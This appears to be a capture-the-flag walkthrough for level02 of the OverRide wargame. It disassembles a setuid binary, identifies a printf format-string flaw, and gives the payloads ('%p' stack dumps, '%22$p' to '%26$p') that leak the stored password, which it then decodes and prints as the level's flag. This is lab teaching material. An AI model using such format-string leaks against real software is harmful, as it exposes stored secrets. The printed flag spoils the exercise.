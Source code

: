 # Walkthrough

## Context

### Binary info

```bash
level02@OverRide:~$ ls
level02
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Username
--[ Password: Password
*****************************************
Username does not have access!
level02@OverRide:~$ file ./level02
./level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```

An elf binary compiled for x86-64 arch with level03's privileges

### Functions

```assembly
(gdb) info functions
All defined functions:

Non-debugging symbols:
...
0x0000000000400814  main
...
```

Only 'main' present

### Variables

```assembly
(gdb) info variables
All defined variables:

Non-debugging symbols:
...
```

No global variables

### 'main' disassembly

```assembly
(gdb) disas main
Dump of assembler code for function main:
...
   0x0000000000400818 <+4>:     sub    $0x120,%rsp
...
   0x000000000040082c <+24>:    lea    -0x70(%rbp),%rdx
...
   0x000000000040083d <+41>:    rep stos %rax,%es:(%rdi)
...
   0x0000000000400849 <+53>:    lea    -0xa0(%rbp),%rdx
...
   0x000000000040085d <+73>:    rep stos %rax,%es:(%rdi)
...
   0x0000000000400869 <+85>:    lea    -0x110(%rbp),%rdx
...
   0x000000000040087d <+105>:   rep stos %rax,%es:(%rdi)
...
   0x00000000004008a8 <+148>:   callq  0x400700 <fopen@plt>
...
   0x00000000004008e6 <+210>:   lea    -0xa0(%rbp),%rax
...
   0x0000000000400901 <+237>:   callq  0x400690 <fread@plt>
...
   0x0000000000400a8a <+630>:   callq  0x4006b0 <system@plt>
...
   0x0000000000400a96 <+642>:   lea    -0x70(%rbp),%rax
...
   0x0000000000400aa2 <+654>:   callq  0x4006c0 <printf@plt>
...
End of assembler dump.
```

Please refer to the [source.c](./source.c) for better understanding

From disassembled code we can see 0x120 stack frame size and the zeroing instructions which means we have 3 buffers. First will be used as login buffer, second as actual password buffer and the last as password input buffer. Then we can see how the program is reading the actual password but does nothing with it. Even 'system' call is present but(spoiler alert) we're not going to need it. And the last and the most interesting part is printf call which uses our first buffer as format string thus allowing us to use format string attack.

## Exploit

We know where the actual password stored, its on -0xa0(%rbp). This is exactly 0x30(48) bytes further then our first buffer. Let's use printf to examine the stack to calculate our first buffer start offset

### Format string buffer offset

```bash
level02@OverRide:~$ python -c "print '\xff\xff\xff\xff\xff\xff\xff\xff' + '%p|' * 30" | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
��������0x7fffffffe4f0|(nil)|(nil)|0x2a2a2a2a2a2a2a2a|0x2a2a2a2a2a2a2a2a|0x7fffffffe6e8|0x1f7ff9a08|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x100000000|(nil)|0x756e505234376848|0x45414a3561733951|0x377a7143574e6758|0x354a35686e475873|0x48336750664b394d|(nil)|0xffffffffffffffff|0x70257c70257c7025|0x257c70257c70257c| does not have access!
```

As we can see our first buffer starts at 28th segment. Let's calculate the second buffer location from it

### Actual password buffer offset

We know that the difference between first and second buffers is 0x30 bytes. Because our format string is further from printf call we need to substract this difference from first buffer offset which gives us 28 - (48 / 8) == 22.


### Reading memory where actual password is stored

We've calculated the exact location of memory where actual password is stored. The length of the password is 40 bytes. So we need to read 5 segments with 8 bytes in each (5 * 8 = 40)

```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p%23$p%24$p%25$p%26$p
--[ Password: 1
*****************************************
0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d does not have access!
```

So the resulted string is our password! But it is in hex format, let's use python to decode it

### Decoding password

```python
raw_password = "0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d"
"".join([p.decode("hex")[::-1] for p in raw_password.split("0x")])
'Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H'
```
